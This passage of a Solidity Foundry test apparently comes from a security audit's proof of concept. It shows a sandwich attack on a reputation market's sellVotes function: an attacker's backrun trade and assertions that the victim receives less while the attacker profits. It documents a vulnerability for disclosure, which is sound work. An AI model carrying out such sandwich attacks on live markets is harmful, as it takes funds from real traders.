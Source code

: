 ```javascript
        // Step 2: Victim's sellVotes executes at low price
        uint256 victimBalanceBeforeSell = victim.balance;
        vm.prank(victim);
        (,,,,uint256 minPriceWithSandwich, uint256 maxPriceWithSandwich) = reputationMarket.simulateSell(marketOwnerProfileId, TRUST, victimVotes);
        vm.prank(victim);
        reputationMarket.sellVotes(marketOwnerProfileId, TRUST, victimVotes);
        uint256 avgVotePriceWithSandwich = (minPriceWithSandwich + maxPriceWithSandwich) / 2;
        uint256 victimBalanceAfterSell = victim.balance;
        uint256 fundsReceivedWithSandwich = victimBalanceAfterSell - victimBalanceBeforeSell;
        // avgVotePriceWithSandwich: 0.005022544841938360 ETH/trustVote
        // fundsReceivedWithSandwich: 0.914093005949404548 ETH

        // Step 3: Attacker backrun victim's sellVotes with buyVotes to make a profit
        uint256 expectedVotesAttacker = 2000; // 11 ETH = 2097 votes
        uint256 slippageBasisPointsAttacker = 10_000;
        vm.prank(attacker);
        reputationMarket.buyVotes{value: ATTACKER_INITIAL_BALANCE}(marketOwnerProfileId, TRUST, expectedVotesAttacker, slippageBasisPointsAttacker);
        uint256 attackerVotesAfterSandwich = reputationMarket.getUserVotes(attacker, marketOwnerProfileId).trustVotes;
        uint256 attackerBalanceAfterSandwich = attacker.balance;

        // Assert: Victim's sellVotes executes at lower price due to sandwich attack
        assertLt(avgVotePriceWithSandwich, avgVotePriceNoSandwich);

        // Assert: Victim receives less funds from sellVotes due to sandwich attack
        assertLt(fundsReceivedWithSandwich, fundsReceivedNoSandwich);

        // Assert: Attacker profits from the sandwich attack 
        // Attacker has same number of votes after sandwich attack
        assertEq(attackerVotesAfterSandwich, attackerVotesBeforeSandwich);
        // Attacker has made profit after sandwich attack (0.085620704532016936 ETH)
        assertGt(attackerBalanceAfterSandwich, attackerBalanceBeforeSandwich);
    }
}

contract MockContractAddressManager {
    IEthosProfile ethosProfile;

    constructor (address _ethosProfile){
        ethosProfile = IEthosProfile(_ethosProfile);
    }

    function getContractAddressForName(string memory contractName) external returns (IEthosProfile) {
        return ethosProfile;
    }
}

contract MockEthosProfile {
    function verifiedProfileIdForAddress(address userAddress) external returns (uint256) {
        return 69_420;
    }
}
```
